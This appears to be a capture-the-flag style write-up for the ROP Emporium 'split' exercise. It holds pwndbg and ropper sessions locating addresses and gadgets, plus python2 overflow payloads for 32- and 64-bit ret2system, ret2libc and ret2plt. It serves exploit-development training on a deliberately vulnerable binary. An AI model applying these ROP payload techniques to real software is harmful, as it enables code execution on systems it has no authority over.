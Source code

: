 ### 32 bit answers:

- Finding addresses using gdb:

    ```
    ┌──(george93㉿kali)-[~/…/break/osed-prep/ROPEmporium/split]
    └─$ gdb-pwndbg split32
    Reading symbols from split32...
    (No debugging symbols found in split32)
    pwndbg: loaded 192 commands. Type pwndbg [filter] for a list.
    pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
    pwndbg> x system
    0x80483e0 <system@plt>:	0xa01825ff
    pwndbg> r
    Starting program: /home/george93/Desktop/break/osed-prep/ROPEmporium/split/split32 
    split by ROP Emporium
    x86

    Contriving a reason to ask user for data...
    > ^C
    Program received signal SIGINT, Interrupt.
    0xf7fc9559 in __kernel_vsyscall ()
    LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    ──────────────────────────────────────────────────────────────────────────────[ REGISTERS ]───────────────────────────────────────────────────────────────────────────────
     EAX  0xfffffe00
     EBX  0x0
     ECX  0xffffcde0 ◂— 0x0
     EDX  0x60
     EDI  0x8048430 (_start) ◂— xor    ebp, ebp
     ESI  0xf7fa4000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1ead6c
     EBP  0xffffce08 —▸ 0xffffce18 ◂— 0x0
     ESP  0xffffcda0 —▸ 0xffffce08 —▸ 0xffffce18 ◂— 0x0
     EIP  0xf7fc9559 (__kernel_vsyscall+9) ◂— pop    ebp
    ────────────────────────────────────────────────────────────────────────────────[ DISASM ]────────────────────────────────────────────────────────────────────────────────
     ► 0xf7fc9559 <__kernel_vsyscall+9>     pop    ebp
       0xf7fc955a <__kernel_vsyscall+10>    pop    edx
       0xf7fc955b <__kernel_vsyscall+11>    pop    ecx
       0xf7fc955c <__kernel_vsyscall+12>    ret    
        ↓
       0xf7eaacc3 <read+51>                 cmp    eax, 0xfffff000
       0xf7eaacc8 <read+56>                 ja     read+144                    <read+144>
        ↓
       0xf7eaad20 <read+144>                mov    edx, dword ptr [esi - 0x110]
       0xf7eaad26 <read+150>                neg    eax
       0xf7eaad28 <read+152>                mov    dword ptr gs:[edx], eax
       0xf7eaad2b <read+155>                mov    eax, 0xffffffff
       0xf7eaad30 <read+160>                jmp    read+58                    <read+58>
    ────────────────────────────────────────────────────────────────────────────────[ STACK ]─────────────────────────────────────────────────────────────────────────────────
    00:0000│ esp 0xffffcda0 —▸ 0xffffce08 —▸ 0xffffce18 ◂— 0x0
    01:0004│     0xffffcda4 ◂— 0x60 /* '`' */
    02:0008│     0xffffcda8 —▸ 0xffffcde0 ◂— 0x0
    03:000c│     0xffffcdac —▸ 0xf7eaacc3 (read+51) —▸ 0xfff0003d ◂— 0xfff0003d
    04:0010│     0xffffcdb0 —▸ 0xffffce08 —▸ 0xffffce18 ◂— 0x0
    05:0014│     0xffffcdb4 —▸ 0xf7fe1ce0 (_dl_runtime_resolve+16) ◂— pop    edx
    06:0018│     0xffffcdb8 ◂— 0xffffffff
    07:001c│     0xffffcdbc —▸ 0xf7eaac90 (read) ◂— push   edi
    ──────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]───────────────────────────────────────────────────────────────────────────────
     ► f 0 0xf7fc9559 __kernel_vsyscall+9
       f 1 0xf7eaacc3 read+51
       f 2 0x80485f6 pwnme+73
       f 3 0x8048590 main+74
       f 4 0xf7dd7905 __libc_start_main+229
    ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
    pwndbg> x system
    0xf7dfdd00 <__libc_system>:	0x100468e8
    pwndbg> 
    ```
    
- Return to system via usefulFunction:

    `python2 -c "print('A' * 44 + '\x1a\x86\x04\x08' + '\x30\xa0\x04\x08')" | ./split32`

- Return to system via Ret2libc (aslr disable)

    `python2 -c "print('A' * 44 + '\x00\xdd\xdf\xf7' + 'AAAA' + '\x30\xa0\x04\x08')" | ./split32`

- Return to system via Ret2plt (aslr bypass)

    `python2 -c "print('A' * 44 + '\xe0\x83\x04\x08' + 'AAAA' + '\x30\xa0\x04\x08')" | ./split32`

- Some explanations:

    Typical exploit looks like this `python2 -c "print('A' * 44 + <ADDRESS OF FUNCTION TO RETURN TO> + <RETURN ADDRESS OF THE RETURN FUNCTION> + <ARGUMENT TO THE ADDRESS OF FUNCTION TO RETURN TO>)" | ./split32`. You may or may not need the return address of the return function as seen above whereby some of our exploit answers has 'AAAA' which represents the return address of the return function.

### 64 bit answers:

- Difference between 32 bit & 64 bit programs: system grabs arguments off rdi

- We will need to find ROP gadgets within the binary. With pwntools, we can use `rop = ROP(elf)` which will extract all ROP gadgets from the elf binary (similar to `ropper -f split --search "pop rdi"`)

- Find ROP gadgets in binary

    ```
    ┌──(george93㉿kali)-[~/…/break/osed-prep/ROPEmporium/split]
    └─$ ropper -f split --search "pop rdi"
    [INFO] Load gadgets for section: LOAD
    [LOAD] loading... 100%
    [LOAD] removing double gadgets... 100%
    [INFO] Searching for gadgets: pop rdi

    [INFO] File: split
    0x00000000004007c3: pop rdi; ret; 
    ```
- Analyse usefulFunction:

    ```
    ┌──(george93㉿kali)-[~/…/break/osed-prep/ROPEmporium/split]
    └─$ gdb-pwndbg split  
    Reading symbols from split...
    (No debugging symbols found in split)
    pwndbg: loaded 192 commands. Type pwndbg [filter] for a list.
    pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
    pwndbg> disas usefulFunction
    Dump of assembler code for function usefulFunction:
       0x0000000000400742 <+0>:	push   rbp
       0x0000000000400743 <+1>:	mov    rbp,rsp
       0x0000000000400746 <+4>:	mov    edi,0x40084a
       0x000000000040074b <+9>:	call   0x400560 <system@plt>
       0x0000000000400750 <+14>:	nop
       0x0000000000400751 <+15>:	pop    rbp
       0x0000000000400752 <+16>:	ret    
    End of assembler dump.
    pwndbg> search "/bin/cat"
    search: The program is not being run.
    pwndbg> r
    Starting program: /home/george93/Desktop/break/osed-prep/ROPEmporium/split/split 
    split by ROP Emporium
    x86_64

    Contriving a reason to ask user for data...
    > ^C
    Program received signal SIGINT, Interrupt.
    0x00007ffff7ec255e in __GI___libc_read (fd=0, buf=0x7fffffffdc10, nbytes=96) at ../sysdeps/unix/sysv/linux/read.c:26
    26	../sysdeps/unix/sysv/linux/read.c: No such file or directory.
    LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    ───────────────────────────────────────────────[ REGISTERS ]────────────────────────────────────────────────
     RAX  0xfffffffffffffe00
     RBX  0x400760 (__libc_csu_init) ◂— push   r15
     RCX  0x7ffff7ec255e (read+14) ◂— cmp    rax, -0x1000 /* 'H=' */
     RDX  0x60
     RDI  0x0
     RSI  0x7fffffffdc10 ◂— 0x0
     R8   0x2c
     R9   0x7ffff7fdc1f0 (_dl_fini) ◂— push   rbp
     R10  0xfffffffffffffb87
     R11  0x246
     R12  0x4005b0 (_start) ◂— xor    ebp, ebp
     R13  0x0
     R14  0x0
     R15  0x0
     RBP  0x7fffffffdc30 —▸ 0x7fffffffdc40 ◂— 0x0
     RSP  0x7fffffffdc08 —▸ 0x400735 (pwnme+77) ◂— mov    edi, 0x40083f
     RIP  0x7ffff7ec255e (read+14) ◂— cmp    rax, -0x1000 /* 'H=' */
    ─────────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────────
     ► 0x7ffff7ec255e <read+14>     cmp    rax, -0x1000
       0x7ffff7ec2564 <read+20>     ja     read+112                <read+112>
        ↓
       0x7ffff7ec25c0 <read+112>    mov    rdx, qword ptr [rip + 0xdf889]
       0x7ffff7ec25c7 <read+119>    neg    eax
       0x7ffff7ec25c9 <read+121>    mov    dword ptr fs:[rdx], eax
       0x7ffff7ec25cc <read+124>    mov    rax, -1
       0x7ffff7ec25d3 <read+131>    ret    

       0x7ffff7ec25d4 <read+132>    nop    dword ptr [rax]
       0x7ffff7ec25d8 <read+136>    mov    rdx, qword ptr [rip + 0xdf871]
       0x7ffff7ec25df <read+143>    neg    eax
       0x7ffff7ec25e1 <read+145>    mov    dword ptr fs:[rdx], eax
    ─────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────
    00:0000│ rsp 0x7fffffffdc08 —▸ 0x400735 (pwnme+77) ◂— mov    edi, 0x40083f
    01:0008│ rsi 0x7fffffffdc10 ◂— 0x0
    ... ↓        3 skipped
    05:0028│ rbp 0x7fffffffdc30 —▸ 0x7fffffffdc40 ◂— 0x0
    06:0030│     0x7fffffffdc38 —▸ 0x4006d7 (main+64) ◂— mov    edi, 0x400806
    07:0038│     0x7fffffffdc40 ◂— 0x0
    ───────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────
     ► f 0   0x7ffff7ec255e read+14
       f 1         0x400735 pwnme+77
       f 2         0x4006d7 main+64
       f 3   0x7ffff7dfb7fd __libc_start_main+205
    ────────────────────────────────────────────────────────────────────────────────────────────────────────────
    pwndbg> search "/bin/cat"
    split           0x601060 '/bin/cat flag.txt'
    pwndbg> 
    ```
    
- Return to system via usefulFunction

    `python2 -c "print('A' * 40 + '\xc3\x07\x40\x00\x00\x00\x00\x00' + '\x60\x10\x60\x00\x00\x00\x00\x00' + '\x4b\x07\x40\x00\x00\x00\x00\x00')" | ./split`

- Return to system via Ret2libc (aslr disable)

    `python2 -c "print('A' * 40 + '\xc3\x07\x40\x00\x00\x00\x00\x00' + '\x60\x10\x60\x00\x00\x00\x00\x00' + '\x60\xd8\xe1\xf7\xff\x7f\x00\x00')" | ./split`

- Return to system via Ret2plt (aslr bypass)

    `python2 -c "print('A' * 40 + '\xc3\x07\x40\x00\x00\x00\x00\x00' + '\x60\x10\x60\x00\x00\x00\x00\x00' + '\x60\x05\x40\x00\x00\x00\x00\x00')" | ./split `                                                                                                       

- Explanations

    Typical exploit looks like this `python2 -c "print('A' * 40 + <ROP GADGET TO POP NEXT ADDRESS INTO RDI AND RETURN> + <ADDRESS YOU WANT TO BE IN RDI> + <FUNCTION TO RUN AFTER THE ROP GADGET HAS COMPLETED WHICH WILL TAKE THE ARGUMENT IN RDI>)" | ./split`. You may or may not need the return address of the return function as seen above whereby some of our exploit answers has 'AAAA' which represents the return address of the return function.